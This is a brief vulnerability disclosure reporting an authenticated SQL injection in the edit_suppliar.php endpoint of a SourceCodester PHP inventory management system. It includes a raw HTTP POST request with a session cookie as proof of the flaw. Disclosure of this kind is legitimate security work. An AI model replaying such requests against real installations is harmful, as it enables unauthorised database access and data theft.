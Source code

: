 



The Free and Open Source inventory management system has an SQL injection vulnerability that an attacker, if authenticated, can exploit to steal information or corrupt a database.





Source code address：https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html



The vulnerability is located in the /app/action/edit_suppliar.php file, where you can see an action to update the information in the code snippet.

![image-20250326143931826](images/image-20250326143931826.png)





Vulnerability verification：

```
POST /ample/app/action/edit_suppliar.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Cookie: PHPSESSID=c4gam437gl7cc6hlbsgm3pplq4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 63

id=1&name=1&designation=1&contact=1&email=1&address=1&company=1
```

 ![image-20250326143855181](images/image-20250326143855181.png)



































